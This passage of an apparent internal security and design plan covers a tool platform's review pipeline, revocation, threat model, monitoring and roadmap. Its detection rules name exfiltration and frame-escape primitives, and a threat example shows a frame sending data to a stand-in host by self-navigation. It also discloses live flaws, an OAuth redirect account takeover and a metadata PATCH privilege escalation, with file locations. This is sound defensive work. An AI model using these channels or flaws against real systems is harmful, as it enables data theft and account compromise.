- the source, one click away (every installing admin may read it)

Members are warned too, in two proportionate ways, and only for a tool from
outside the space:

- **A first-use notice**, once per member per install, when the tool acts as
  them — writes notes or records, calls a connector, uses AI: *Deal Pipeline
  from Acme Sales will edit Deal records and use the space's AI as you.*
  **Continue** remembers the answer; it is asked again only if an upgrade widens
  what the tool does. A read-only tool shows no notice. (Claude asks each
  viewer before an artifact's first connector call; this is the same idea,
  scoped to the moments a tool acts on someone's behalf.)
- **A provenance line** in the band, muted: *From Acme Sales · reviewed by
  Visvine*.

A suspended tool is not drawn; its pane says *Suspended by Visvine* with the
reason. A tool the space wrote itself shows neither — the space's own admins
approved it, and an app's own work does not caption itself.

**Staged reach for new listings.** A publisher's first listing, and any
listing from a publisher that is not yet verified, can be installed in at most
25 spaces during its first 14 days, with the bridge's per-viewer rate halved —
the cap Discord puts on unverified Activities and Slack on unlisted apps. A
sleeper that turns malicious in its second week reaches a bounded audience that
monitoring is already watching.

### 5.6 Transfer and packaging

- **Export** (any tool, any rung, by anyone who can read it): the composed
  manifest and sources as a `.vvtool` — signed only for a listed version (4.7).
- **Import** (a member, into a space): a package becomes a new working copy and
  enters the pipeline like any new code; a signature only changes the
  provenance shown.
- **Move** a working copy to another space the actor can write: export +
  import. The code and docs travel; versions, installs, state and collections
  belong to the old space and stay there. Said plainly on the import, so nobody
  expects history to follow.
- **Transfer a listing** to another publisher space: both admins agree; the
  listing id stays, so installs keep receiving upgrades.
- **Not in this plan:** exporting and applying a whole space's shape (every
  installed tool with placement, bindings and settings) as a template for other
  spaces. It needs an "apply" half — installing listed tools, importing private
  ones, re-binding — and is its own design once packages exist.

### 5.7 Revocation

Today there is no way to pull a version once it is approved or listed: every
verdict function acts only on `pending` (`registry.ts:749-751, 902-904,
1055-1063`), and nothing reads a verdict after install. Revocation is new
state, in its own columns rather than new values of `status` and
`marketplaceStatus` (whose meaning — *the review's outcome* — should not
change):

| State | Set by | Effect |
|---|---|---|
| listing `suspended` | a reviewer, or automatically on a severe incident (§7.4) | every install outside the source space stops; reversible |
| listing `revoked` | a reviewer | as suspended, permanent; installs are flagged for removal |
| version `revoked` | the source space's admins | stops the version everywhere it runs, rooms included |

- **Read wherever a version is chosen or run:** `resolveBridgeTarget` (every
  bridge call, frame mint and changes stream), `installability`,
  `applyUpgrade`, and share-down's version pick — otherwise the next share sync
  would re-install a revoked house version into its rooms.
- **A running frame stops because the host is told, not because a token
  expires.** The frame token is checked once, when the frame loads; after
  that the frame runs until the host removes it. So the bridge answers a
  revoked install with a `revoked` refusal that the **host** (never the tool)
  handles by removing the frame and drawing *Suspended by Visvine*. For open
  frames that make no calls, the changes stream pushes the same message where
  it can (it is per-process), and the host re-checks the install's state once a
  minute. Bridge calls stop at once; open frames within a minute.

### 5.8 OAuth scopes

Keep `tools:author` and `tools:install`. Add **`tools:list`** for requesting,
co-signing and withdrawing a global listing — publishing a tool to every space
is a different act from editing one.

---

## 6. Authoring paths and the submission pipeline

### 6.1 The four paths

| Path | Verdict | Why |
|---|---|---|
| **MCP** (exists) | **Primary** | It is how everything in Visvine is created; authoring agents (Claude, Cursor, Codex) iterate well on `write_tool`'s diagnostics. Extend it, don't replace it. |
| **In-app: AI builder + Workbench** | **Build** (agreed) | The builder keeps the platform's rule — creation is asked of an AI — while serving members with no AI client of their own; it is the same shape as Figma's agent-generated plugins and Airtable's Omni. The Workbench is where any tool, however it started, is edited, previewed, checked and published. |
| **Starter repo + CLI** | **Build** | Serves people who vibe-code locally in their own editor and agent; needs multi-file sources and a local dev loop, both useful to the other paths too. |
| **Package upload** | **Build** (it is the repo path's last step) | One import door (`import_tool`, the tool's page, the CLI) feeding the same pipeline. |

All four produce the same thing: notes in a tool folder, compiled by the
server, gated by the same pipeline. None has a private format or a faster lane.

### 6.2 In-app

**Workbench** — the preview page grown up. `/tools/preview/<name>` is already
the address `create_tool` hands back and the desktop deep link resolves to, so
it becomes the place its authors work on a tool: a file list (`index.md`,
`ui.tsx`, `data.js`, modules, icon), an editor, the live preview beside it
(today's `ToolPreview`), diagnostics (today's `BuildDiagnostics`), permissions,
bindings and settings as rows (not frontmatter), the latest check report, a
Components panel drawn from the catalog (§3.6) that inserts a snippet, and
Publish. Edit in a tool's ⋯ menu and the Tool tab on `/directory/tool:<name>`
both open it. Writes go through the same `writeToolFile` and compile-on-write
hook as MCP, so the two never disagree.

**AI builder** — a chat on the space's model whose tools are the authoring
actions, reusing agent chat (`lib/agents/chat.ts#runChatTurn`): the system
prompt is `TOOL_AUTHOR_GUIDE`, the tools are `create_tool`, `configure_tool`,
`write_tool`, `check_tool` and `preview_tool`, and they run as the person, so
the draft lands in a folder they can write and nothing is published without
them. It opens its conversation with the `build_tool` intake (what the one
screen shows, who uses it, what data it needs) and hands the result to the
Workbench beside it, where the preview updates as it writes. The component
catalog is in its context from the first turn, so what it builds matches the
app unless the person asks for something else. Its one entry
point is **Build a tool** in the rail's More sheet, beside the installed tools
— the second create entry point the apps keep, after New space; AGENTS.md's
"nothing in the apps creates anything" gains that exception in the milestone
that ships it. With no model in the space it shows the MCP address instead,
the same hand-off `run_agent` makes. Spend is metered to the space like agent
chat.

### 6.3 MCP additions

| Action | Scope | Does |
|---|---|---|
| `configure_tool` | `tools:author` | Writes the config row (permissions, bindings, surfaces, targets) through its gates |
| `write_tool` (extended) | `tools:author` | Accepts `src/<module>.tsx` paths as well as the three files |
| `export_tool` / `import_tool` | `context:read` / `tools:author` | Package out / in |
| `bind_tool` | `tools:install` | Sets an install's binding and setting values |
| `update_install` | `tools:install` | Enable/disable, type claims, apply an offered upgrade, uninstall — all REST-only today |
| `submit_tool` / `withdraw_tool` | `tools:list` | Requests or withdraws a global listing (the missing "list" door — today it is API-only); `withdraw_tool` on a pending space version replaces the unrouted `withdrawVersion` |
| `check_tool` (extended) | `tools:author` | Returns the full pipeline report, not just compile + lint |
| `set_fields` | `context:write` | Writes a record's fields (§3.3.1) — for agents and MCP generally, not only tools |

`get_tool_sdk` grows with the kit and returns the **component catalog**
beside the type definitions. The catalog is also a guide, `tool_design`,
written once in `lib/actions/shared/guides.ts` and named in `create_tool` and
`write_tool`'s `guides:` the way `writing_notes` is for note actions — so any
AI client building over MCP is handed the app's components and design rules
without being asked. The `build_tool` recipe's intake asks what the one screen
shows, who uses it, and **what data it needs** — which becomes its bindings —
and whether it should look like the rest of the app (the default) or its own
way.

### 6.4 Starter repo and CLI

`visvine/tool-starter` (a GitHub template):

```
tool-starter/
├── visvine-tool.json        manifest with bindings and permissions scaffolded, empty
├── src/ui.tsx               a working one-screen example over a bound folder
├── src/data.js              one handler
├── fixtures/                sample notes, records, files for offline dev
├── AGENTS.md                the agent instructions (below)
├── COMPONENTS.md            the app's components, generated from packages/ui
├── CLAUDE.md                "@AGENTS.md"
├── .mcp.json                Visvine's MCP server, so the agent can check and push
├── .github/workflows/check.yml   visvine-tool check on every PR
└── README.md                clone → dev → push → publish in five commands
```

- **`AGENTS.md`** (the cross-agent standard, now under the Linux Foundation's
  Agentic AI Foundation) carries the rules an agent needs to stay inside the
  platform: imports allowed, the kit's components and hooks, the permission
  grammar and "declare before you call", bindings instead of paths, the
  limits, and the commands. It links `COMPONENTS.md` — the same component
  catalog, generated — as the default look, and says plainly that a tool may
  choose its own. Both are generated from `TOOL_AUTHOR_GUIDE` and `packages/ui`
  so they never drift.
- **`@visvine/tool-kit` on npm**: types, components, and a mock runtime that
  answers bridge calls from `fixtures/`.
- **`visvine-tool dev`**: offline, serves the tool in a local sandboxed iframe
  with the production CSP against the fixtures, with a gallery of the kit's
  components beside it; `--space <id>` instead pushes on
  save and opens the real preview, so live data is only ever read through the
  real server under the author's own grants.
- **`visvine-tool check · push · pack · publish`**: the same actions as MCP,
  over the author's OAuth token (`tools:author`).
- **Dependencies**: a curated allowlist (date-fns, zod, d3 modules, lodash-es,
  …) that the server vendors at pinned versions with integrity hashes. Anything
  else fails compatibility. Opening this to any npm package is §11, Q2.

CI needs a non-interactive credential, and there is none today (OAuth only, no
refresh). The plan proposes **per-tool deploy keys**: a token an author or admin
mints on the tool's page, scoped to `tools:author` on that one tool's folder,
revocable, shown once (§11, Q9).

### 6.5 The pipeline



Every run writes an `app_tool_check_runs` row per stage (status, findings,
analyzer versions, timings), shown identically to the author, the space admin
and the reviewer. Nothing is re-run for a person: the report a reviewer reads
is the report the author already saw.

**No path skips the automated stages.** An admin's publish is the space's
approval, not a bypass: it runs compatibility and security first and is refused
on a blocking finding, exactly like a member's. The trusted-publisher rule skips
only the *human* global review. Imports and CLI pushes arrive as working copies
and meet the same stages when published. The static stages take seconds and
run inside the publish request, so publishing stays one step; only the global
dynamic run is asynchronous.

**Compatibility (blocking)** — most of these exist in `check_tool` today:

| Check | Exists |
|---|:-:|
| Manifest schema, name, version, license (global) | partly |
| `platforms` ⊆ {web, desktop} | |
| `sdk` range supported | |
| Compiles; imports only the kit, React and allowlisted dependencies; no computed `import()`; size caps; default export | ✓ |
| `data.js` is a plain script with named handlers | ✓ |
| Surfaces valid (no page claims on built-in types) | ✓ |
| Bindings well-formed; every `$ref` in permissions and surfaces resolves | |
| Global: literal globs only in shared namespaces | |
| Renders headless within budget with no console errors | ✓ (opt-in) |
| Design lint (tokens, backdrop, fixed positioning) — warnings | ✓ |

**Security (blocking on high severity; findings on the rest)** — all new:

| Check | How |
|---|---|
| Frame-escape and exfiltration intent | AST rules over sources: `window.top/parent/opener`, assignments to `location`, `document.cookie`, `eval`/`new Function`/string timers, `RTCPeerConnection`, `WebSocket`/`fetch`/`sendBeacon` (dead under CSP, so their presence is intent), `srcdoc`, `document.write`, `<meta http-equiv>`, `postMessage` other than the kit's |
| Obfuscation and hidden code | high-entropy literals, long base64/hex blobs, escape-encoded identifiers, bidi/invisible Unicode, minified sources |
| Credential phishing | password inputs, login-shaped forms, "session expired" copy |
| Secrets | gitleaks-style patterns in sources and docs |
| Dependencies | allowlist pinning; OSV advisories and the OpenSSF malicious-packages feed on every rescan |
| Declared vs used | extract bridge calls statically; flag *declared but unused* (least privilege) and *used but undeclared* (will fail) |
| Permission risk score | pure rules over the manifest: broad read + write into widely visible folders (laundering), connectors in code mode, `ai` + broad read, wildcard agents, records writes on `person` |
| AI review | the deployment's chat model (`lib/notes/ai.ts`) reads the code against its description and permissions and lists anything they do not account for; **it can only add a finding, never clear one**. Not the judge: AGENTS.md records it as weak at intent, which is the whole question here |
| Dynamic run (global only) | render the version in an isolated browser (a Visvine machine, whose egress is already logged) against a honeypot space seeded with canary notes, through a new bridge target `{ kind: 'review', versionId }` that only the review runner can resolve — a pending listing cannot be *installed* anywhere, by design; any CSP report, navigation, egress attempt or canary write-out blocks |

**Human review.** Space admins approve on the Approvals tab (today) and now
see the report beside the permission diff. Visvine reviewers get the same page
plus the dynamic run, publisher history and the author's co-sign. A reviewer's
checklist: the tool does what it says and nothing else; permissions are the
least it needs; nothing asks for credentials; nothing launders data from a
narrow audience to a wide one; content is within the community rules.

**Publish.** Space: installable in the space and its rooms. Global: listed.
**After:** rescans when rules or advisory feeds change; incidents and reports
feed the reviewer queue (§7.4).

---

## 7. Security model

### 7.1 Threats and controls

| Threat | Example | Controls | Residual |
|---|---|---|---|
| Exfiltration from the frame | `fetch` to an attacker | cookie-less origin, `sandbox="allow-scripts"` (opaque origin), `connect-src 'none'`, `script-src 'self'`, no remote code | self-navigation, WebRTC ICE, DNS prefetch — see 7.2 |
| Image-beacon exfiltration | `>` — `img-src` allows **all** of `storage.googleapis.com` today | pin `img-src` to the media bucket's path, or serve media through the tools origin | — |
| Confused deputy / laundering | run as an admin, read admin-only notes, write them where the author can read | a draft runs with the intersection of its authors' and the viewer's reach; permission risk score; review; audit lines carry viewer and tool | a *reviewed* tool with broad read and broad write can still do it — monitoring |
| Unreviewed code reaching others | a preview link sent to an admin | the same intersection, and no auto-run for anyone but its authors (5.2) | — |
| Freeze-for-AI bypass | a tool asks the space's AI for text and writes it into a frozen folder | a tool whose version declares `ai` writes under an AI-assisted origin that the freeze refuses (today every tool write is recorded as a human `edit`, `bridge.ts:505-514`) | — |
| Reading configuration | a tool reading `**` as an admin reads connector notes, briefs and other tools' source | `**` never reaches configuration namespaces; a tool that needs them names them, and review sees it | — |
| Malicious update after approval | v2 adds a beacon | installs pinned; upgrades by an admin; widened reach needs consent; trusted fast path still scans | code-only changes from verified publishers are not read by a person |
| Supply chain | a poisoned dependency | curated allowlist, server-vendored, pinned + hashed, rescanned | allowlist upkeep |
| Credential phishing | a fake sign-in inside a tool | static rule, review rule, `form-action 'none'`, sensitive prompts drawn by the host (`ui.confirm`) | social engineering |
| Connector abuse | spam through a shared Slack connector | connector bound at install; global tools action-only; connector perimeter; rate limits; audit | declared actions used as declared |
| Cost / denial of service | runaway `data.js` or AI loops | isolate caps; 2 concurrent `data.call` per install and 120 calls/min per viewer per install, **moved from in-process maps to rows** (`lib/rateLimit/`) so they hold across instances; AI budget cap | — |
| Cross-tool interference | one tool reading another's state | opaque origin, state keyed by install (and viewer), no shared storage | — |
| Publisher impersonation | "Visvine Official" | publisher assigned by the registry, verified flag, name-squat check | — |
| Access-control bypass | calling the bridge for an admin-only tool | server-side rail lock (5.2) | — |
| Running on mobile | a phone app minting a frame token | client class (§8) | mobile *browsers* are web |

### 7.2 Closing the frame's residual channels

`connect-src 'none'` stops fetch, XHR, WebSocket, EventSource and beacons. It
does not stop three things, and no browser policy fully does:

- **The frame navigating itself** (`location = 'https://x/?d=…'`). CSP's
  `navigate-to` was never shipped. *Browser:* the host counts the iframe's
  `load` events; a second load it did not cause means the frame navigated — it
  removes the frame, shows "This tool tried to leave its frame and was stopped",
  and records a severe incident. The request has already left, so this is
  detection. *Desktop:* prevented outright (3.5).
- **WebRTC ICE** can carry data to a STUN/TURN server. CSP's `webrtc` directive
  is specified but not shipped in Chromium or Firefox. Deleting
  `RTCPeerConnection` in the boot script is bypassable through a fresh
  `about:blank` realm, so it is a static-analysis rule (§6.5) and a review item,
  not a control we claim.
- **DNS prefetch.** Send `X-DNS-Prefetch-Control: off`; flag
  `<link rel=dns-prefetch|preconnect>` statically.

Also: `Permissions-Policy` denying every powerful feature on the frame
document (today only the iframe's `allow=""` does), a `Reporting-Endpoints` +
`report-to` CSP report sink on the tools origin, and the pinned `img-src`.

That leaves two narrow, detectable channels. Two further facts bound what they
can carry: a tool can only read what it declared *and* what its viewer can see,
and every read is counted.

### 7.3 Global tools: warn, and monitor — both

**Recommendation: both, because each fails alone.** Warnings alone put the
whole burden on an admin reading a sheet once, can't catch a malicious update,
and fade with repetition. Monitoring alone gives a space no say in what enters
it. Together:

- **Warn, proportionately.** The install sheet (5.5) states reach in plain
  words with the admin's own folders; members get a first-use notice when a
  tool from outside the space acts as them, and a provenance line after that; a
  draft says it is unpublished. Because a tool runs as the viewer and only
  narrows, the words can be plain rather than alarming — "edits *Stage* on Deal
  records", not "may access your data". About states a tool's egress, and for
  most tools it is **None**: with `connect-src 'none'` and no `fetch` in
  `data.js`, a tool's only way out is a connector it declared — a stronger
  claim than most platforms can make, and worth saying (Forge's "Runs on
  Atlassian" badge is the precedent).
- **Monitor, automatically, with teeth.** Every global install reports
  telemetry; high-signal events open incidents; severe incidents suspend the
  listing everywhere within minutes (7.4); reviewers clear or revoke.
- **Cap the reach of the unproven.** New listings from unverified publishers
  are installable in at most 25 spaces for their first 14 days (5.5).

### 7.4 Monitoring

| Signal | Source | Severity |
|---|---|---|
| Frame self-navigation | host load counter | severe |
| CSP violation (connect, img, script, frame) | report sink, attributed by frame token | severe if from ≥ 2 viewers, else flag |
| Canary read or write-out (dynamic run) | honeypot space | severe (blocks listing) |
| Perimeter refusals spike | bridge | flag |
| Read volume far above the version's baseline | telemetry | flag |
| Error-rate or timeout spike | telemetry | quality flag |
| User report | Tool page menu | reviewer queue |

- **`app_tool_telemetry`** (install, version, day, instance): calls and
  refusals by method and code, bytes read and written, distinct paths read,
  `data.call` time, AI tokens, CSP reports, navigations, frame errors, viewers.
  Counts only, never content. Each instance accumulates in memory and, on the
  request path once a minute has passed, flushes one increment per install —
  never on a timer, which a scaled-to-zero instance never runs — so no single
  row is hot and N instances still sum. Counts are best-effort; incidents are
  written at once. A daily roll-up keeps 90 days.
- **`app_tool_incidents`**: kind, severity, install, version, detail, status.
- **Anomaly rules** are pure and tested, in the style of `lib/tools/requirements.ts`.
- **Auto-suspension** needs a severe signal from two independent viewers, or
  one from the dynamic run, so a single forged report cannot take a
  competitor's tool down.
- **Rescans**: when a static rule or advisory feed changes, every listed
  version is re-scanned and new findings open incidents.

### 7.5 Incident response

Suspend (automatic or reviewer) → notify the publisher's admins and every
installing space's admins → the publisher fixes and re-submits, or the
reviewer revokes → installs of a revoked version are flagged for removal, with
an export of the tool's collections for each installing space.

### 7.6 Accepted, and deferred

- Two frame channels (WebRTC, DNS) are detected statically and bounded, not
  closed, in browsers.
- Verified publishers' code-only updates skip human review; scans and
  monitoring still apply.
- **Deferred:** a Web Worker + remote-DOM runtime for global tools, which
  removes navigation and WebRTC from a tool's reach entirely at the cost of a
  fixed component set. Revisit if monitoring shows real abuse.

---

## 8. Excluding tools from mobile

### 8.1 Today, nothing stops it

- **The server cannot tell the phone apps from web or desktop.** Every session
  is the same JWT with the same claims, minted by the same `createSession` at
  seven sites. `getSession` reads a Bearer header first, then the cookie, and
  keeps neither fact (`lib/session.ts:104-117`).
- **A phone token can run tools.** It can mint a frame token, fetch the frame
  and bundle, and call the bridge — `data.call` included — because the bridge's
  same-origin check (`Sec-Fetch-Site` / `Origin`) is forgeable by any
  non-browser client (`app/api/tools/bridge/route.ts:43-56`). The changes
  stream has no origin check at all.
- **iOS has a Tools tab.** `Views/ToolsView.swift` lists tools with
  `list_tools` and opens `/s/<id>/t/<slug>` in Safari
  (`Navigation/MainTabView.swift:26-28`). Android has none. `docs/mobile.md`
  describes the tab; AGENTS.md does not.
- **Tool data is on the wire.** `GET /api/data/spaces` sends every space's
  `installedTools[]` and `tool:*` rail keys to both apps
  (`lib/spaces/queries.ts:93-123`); `/api/data/nodes` returns `tool` nodes;
  the notes tree shows `tools/`.

### 8.2 Why it matters beyond product

Apple's Guideline 4.7 lets an app offer HTML5/JavaScript mini apps only if the
app takes responsibility for each: privacy, content filtering, reporting and
blocking (4.7.1), explicit consent *each time* data is shared with one (4.7.3),
a public index with universal links to every one (4.7.4), and age gating
(4.7.5). Guideline 2.5.2 forbids downloaded code that changes the app's
features. Google Play allows JavaScript in a WebView but holds the app to its
policies for whatever that code does. Keeping user-built tools out of the phone
apps keeps them clear of all of it.

### 8.3 Enforcement, server-side

The phone apps are the only clients that send a session as a Bearer token —
web and desktop hold the `auth_session` cookie, the headless preview is a
cookie, MCP uses its own token type — so the transport alone already separates
them, for every token issued so far. The design uses that, plus one claim for
the future:

1. **The transport, reported.** `getSession` returns the payload *and* how it
   arrived (`cookie` | `bearer`); the transport is never signed into the
   token.
2. **A `cl: 'mobile'` claim** at the two mobile mint sites
   (`api/auth/callback/google-mobile`, `api/dev/issue-token`) — not `aud`,
   `typ` or `type`, which `verifySession` refuses. Only mobile is marked;
   nothing treats web and desktop differently. The claim records which sign-in
   route issued a token, not proof of the device — any client can complete a
   sign-in flow — which is why the transport rule carries the weight.
3. **One pure predicate**, `lib/tools/clientClass.ts#toolRunDenial`: refuse a
   Bearer transport or `cl: 'mobile'`; allow everything else, so every existing
   web and desktop cookie keeps working with no re-login.
4. **Applied where a tool runs:** `resolveBridgeTarget` (frame token, bridge,
   changes stream) — the runtime frame and bundle routes are already covered by
   the frame token they require — plus `proxy.ts` refusing a Bearer header on
   `/api/tools/*` before any route runs. The class travels on `ActionCaller`
   (through `callerFromSession`), so an agent chatting with someone on a phone
   cannot preview or run a tool for them either.
5. **Tools do not appear:** for a phone session, `GET /api/data/spaces` drops
   `installedTools` and `tool:*` rail keys (`lib/spaces/queries.ts`). The iOS
   Tools tab and its `InstalledTool` model are removed; iOS gains the Activity
   tab Android already has, so it keeps three tabs; `docs/mobile.md` and
   AGENTS.md say tools are web and desktop only.
6. **Tests:** the predicate (pure); frame-token, bridge and changes with a
   Bearer session and with a `mobile` claim; a static test that nothing under
   `apps/mobile` names `/api/tools/`, `/t/` or `list_tools`;
   `verify:tools:escape` adds "a bearer token asks for a frame token → 403".

Deliberately *not* blocked: reading a tool's notes or listing tools through
the generic APIs. Notes a tool wrote are context and stay readable on the phone
like any note; none of it runs a tool. Refusing phone tokens at OAuth approval,
or stripping tool scopes from phone callers, is optional hardening beyond the
requirement.

### 8.4 What it cannot cover

A phone's *browser* is the web app: nothing a browser sends distinguishes it
from a narrow desktop window in a way a client cannot forge. The plan treats
mobile browsers as web and hides the tools rail below the phone breakpoint so
the experience matches the apps, without claiming enforcement there (§11, Q11).

---

## 9. Gaps and how to fill them

### 9.1 Found on the way — fix regardless of this plan

| Finding | Where | Risk | Fix |
|---|---|---|---|
| The mobile Google callback sends the freshly minted 30-day session token to `state.redirectUri` (and `callbackUrl`), both taken from the request unvalidated, at three redirect sites; `state` is bound to nothing the app generated, and Google's `redirect_uri` is fixed server-side, so an attacker-built authorize URL round-trips cleanly | `apps/web/app/api/auth/callback/google-mobile/route.ts:36-44, 115-118, 151-154, 180-183` | **Account takeover by link**: the victim signs in with Google and their token lands on the attacker's URL | accept exactly `visvine://auth/callback`; bind `state` to a nonce (or PKCE) the app created and verify it; validate `callbackUrl` as an in-app path |
| `PATCH /api/nodes/<id>` merges **any** metadata key from **any** active member of the node's space; only `userId` is reserved and there is no visibility check (GET has one) | `apps/web/app/api/nodes/[nodeId]/route.ts:24, 249-285` | **Privilege escalation.** An event's `hosts`, `status` and `visibility` live in `node.metadata` (`lib/eventRepo.ts:66-73`): a member can add themselves as a host — and so manage the event (`lib/eventAuth.ts#isEventManager`) — or publish a private draft to the open web at `/e/<slug>`, skipping `requireEventManager` | reserve every platform key (`hosts`, `status`, `visibility`, `notePath`, `spaceRef`, `globalMode`, …); accept only declared tracked fields, parsed on the server; apply the Directory's visibility rule. §3.3.1's `setFields` is built on this fixed door |
| A tool preview runs the unreviewed draft, at once, with the reach of whoever opens it — admins included | `lib/tools/target.ts#resolvePreview` (membership, directory access and `readVisible` only); `ToolPreview.tsx:170` invites sharing the link | an author gets unreviewed code run with an admin's reach | the intersection rule and the explicit Run (5.2) |
| A tool's admin-only lock is enforced only in the browser | `features/tools/components/ToolPage.tsx:44-47`; absent from `lib/tools/target.ts`; type-page tabs ignore it | a member runs an admin-only tool by calling the bridge | enforce in `resolveBridgeTarget`, meaning the tool everywhere (§3.6) |

### 9.2 Tools

| # | Gap | Evidence | Fill | M |
|---|---|---|---|:-:|
| 1 | Nothing can pull an approved or listed version; installs never re-read a verdict | every verdict function acts on `pending` only (`registry.ts:749-751, 902-904, 1055-1063`); `resolveInstall` reads none (`target.ts:247-285`) | revocation columns read wherever a version is chosen or run; the host removes revoked frames (5.7) | M0 |
| 2 | Frame `img-src` allows every bucket on `storage.googleapis.com` | `lib/tools/csp.ts:25, 59` | pin the media path, or serve media from the tools origin | M0 |
| 3 | No frame-navigation detection, no CSP reports | `ToolFrame.tsx#handleFrameLoad` only sets a flag | load counter; report sink | M0 |
| 4 | Tool rate and concurrency limits are per process | `lib/tools/limits.ts` | rows, through `lib/rateLimit/` | M0 |
| 5 | The write seal does not cover reads: `**` reaches configuration | `bridge.ts:230-235`; `perimeter.ts:378-381` | `**` never reaches configuration namespaces | M0 |
| 6 | Docs say rooms may install their house's versions; the code never allowed it, and rooms get house tools through `share:` | `docs/tools.md:346-348`, `apps.ts:176-181`, AGENTS.md vs `registry.ts#installability` | fix the docs — `share:` is the whole grant, and a lineage rule would let a room admin install what the house chose not to share | M0 |
| 7 | Docs and copy describe flows that no longer exist (§1.6); `TABLES.md` lacks `app_tool_*` | — | correct them | M0 |
| 8 | Phones can run tools; no client class | §8.1 | §8.3 | M1 |
| 9 | Each tool draws its own navigation; nothing standard on its page | `ToolPage.tsx` hands the pane to the frame | host-drawn navigation and chrome on each tool's page (§3.6) | M2 |
| 10 | An admin cannot install a tool from the app | `POST /api/spaces/[spaceId]/tools` has no caller | the install sheet (§5.3) | M2 |
| 11 | The Tool tab's Publish is admin-only and its copy describes the old marketplace | `ToolPageContent.tsx:142-204, 427-434` | members publish (pending); copy matches §5 | M2 |
| 12 | Checks are compile + lint; nothing recorded; no security stage | `check_tool` | the pipeline (§6.5): static stages in M3, global stages in M7 | M3 |
| 13 | The version diff sees only the five v1 lists, and trusted-publisher auto-approval lists whatever it does not see | `perimeter.ts#diffPerimeter`, `registry.ts#shouldAutoApprove` | a diff-coverage test over every manifest field that grants or places (4.1, trap 5) | M3 |
| 14 | No in-app editor or builder | — | Workbench, AI builder | M4 |
| 15 | Member-invented types have no fields, no table and no query; nothing writes a tracked field safely | §1.3 | the records layer (§3.3.1) | M5 |
| 16 | Reach is literal paths of the source space | `lib/tools/perimeter.ts` | bindings | M6 |
| 17 | Reach lives in frontmatter, against "structured facts are a row" | `lib/tools/config.ts#parseToolConfig` | `app_tool_configs` + adoption | M6 |
| 18 | One UI file; nothing importable but React and the kit | `lib/tools/compile.ts#EXTERNALS` | multi-file sources; curated dependencies | M6 |
| 19 | No reach into records, files, actions or AI | `lib/tools/protocol.ts#BridgeMethods` | bridge v2 | M6 |
| 20 | `state` is shared by every viewer of an install | `lib/tools/state.ts` header | `scope: user` | M6 |
| 21 | Any tool may send arbitrary code to a declared connector | `bridge.ts#connectorsCall` (`code` param) | global tools use named connector actions only | M6 |
| 22 | The kit is a second component set beside `@visvine/ui` (with a `Card`, though app surfaces are flat, and a `PageHeader` the shell now owns) | `features/tools/kit/components` | rebuild the kit on `@visvine/ui` | M6 |
| 23 | Every tool write is recorded as a human `edit`, so AI-written text from a tool would pass Freeze for AI | `bridge.ts:505-514` | an AI-assisted origin for tools that declare `ai` | M6 |
| 24 | Global listing is API-only and needs no author consent | `registry.ts#submitToMarketplace`; the Mine tab was deleted | submit/withdraw doors, co-sign, `tools:list` | M7 |
| 25 | No package format, export or import | repo-wide search | `.vvtool` | M7 |
| 26 | No way to browse tools; cross-space install is `install_tool { key }` | the `/tools` marketplace was deleted on 2026-09-01 | Tools in Discover, opening the same About page | M7 |
| 27 | New rows keyed to a person must be erased with them: per-viewer state, first-use consents, listing authors, check-run actors, collection rows | `lib/account/deleteAccount.ts`; `tests/delete-account.test.ts` reads the schema | add each to `deleteAccount` in the milestone that creates it | M6–M10 |
| 28 | Trusted publishers are an env var | `registry.ts#trustedPublishers` | verified publishers as data | M8 |
| 29 | No telemetry, incidents or reports | — | §7.4 | M8 |
| 30 | No local dev loop, CLI or starter repo | — | §6.4 | M9 |
| 31 | No store for per-event data | `state` caps; the placement test | collections | M10 |

The changes stream staying per-process (a hint, with polling as the
guarantee) is a known, documented limit and stays out of scope.

---

## 10. Roadmap

Ordered by dependency, with what you asked for first. Two rules shape the
order: **every new power a tool gains lands after the checks that review it**,
and **the directory opens to every space only after monitoring can pull a
tool back**. Sizes are relative (S ≈ days, M ≈ a week or two, L ≈ several
weeks).

**Now — before any milestone:** the two live bugs in §9.1 that sit outside
Tools, each its own commit — the mobile OAuth redirect first, then the node
`PATCH`. The two Tools bugs (preview, admin-only lock) open M0.



| # | Milestone | Delivers | Depends on | Exit criteria | Size |
|---|---|---|---|---|:-:|
| M0 | **Fix what is live** | the preview intersection and explicit Run; the admin-only lock on the server, meaning the tool everywhere; revocation columns read wherever a version is chosen or run, and the host removing revoked frames; `**` kept out of configuration namespaces; tool limits as rows; frame hardening (pinned `img-src`, `Permissions-Policy`, `X-DNS-Prefetch-Control`, CSP report sink, navigation detection); docs, action replies, recipe and scope copy corrected, the sub-space docs fixed, `TABLES.md` rows | — | a non-author's preview runs only on Run and with the intersected reach; a member cannot run an admin-only tool through the bridge; a revoked version stops at its next call and its open frame within a minute; the escape suite covers a foreign-bucket image, a self-navigating frame and a `**` read of `connectors/` | M |
| M1 | **Where tools run** | transport + `cl: 'mobile'`; `toolRunDenial` at the run doors; tool surfaces dropped from phone responses; iOS Tools tab removed and Activity added; desktop `will-frame-navigate` guard and WebRTC policy | — | frame-token, bridge and changes answer 403 to a Bearer or mobile session; the iOS app ships without Tools and with Activity; the desktop cancels a frame's self-navigation | M |
| M2 | **Tool pages and the shape** | tool pages in the existing rail (§3.6): `surfaces.nav` as band tabs or a side list, and band actions, in today's config; the shared band tab bar; `visvine:route` / `visvine:action`; the ⋯ menu and host-drawn states; the install sheet (placement, claims) opened from About and from Approvals; `update_install`; members publish from the Tool tab, with its copy fixed | M0 | every existing tool runs unchanged inside the shell; a tool with three sections switches without reloading its frame; an admin approves, installs and places a member's tool without MCP | L |
| M3 | **Checks before powers** | `app_tool_check_runs`; the compatibility stage; the static security stage (escape and exfiltration rules, obfuscation, phishing, secrets, declared-vs-used, risk score); the diff-coverage test; publish runs the static stages inline; the report on the Tool tab and Approvals | M0 | a fixture corpus of benign and malicious tools: every malicious sample blocked or flagged, no benign one blocked; a trusted publisher's widened reach is never auto-approved | M |
| M4 | **Build in the app** | the Workbench at `/tools/preview/<name>`; the AI builder (agent chat with the authoring actions, the `build_tool` intake, Build a tool in More); the component catalog of today's kit in `get_tool_sdk`, the `tool_design` guide and the builder's context; AGENTS.md's create exception | M2, M3 | a member with no AI client of their own builds, previews and publishes a working tool from the app | L |
| M5 | **Records layer** | fields for invented types with their reserved keys; `context_record_fields` with invalid flags and re-projection; invented types in the Directory Table; `setFields` + `set_fields` over the fixed node door | M0 (and §9.1's node fix) | a *Deal* type gets fields, a table and a filtered query; an agent sets a deal's stage through `set_fields`; a `status` field is refused as reserved | L |
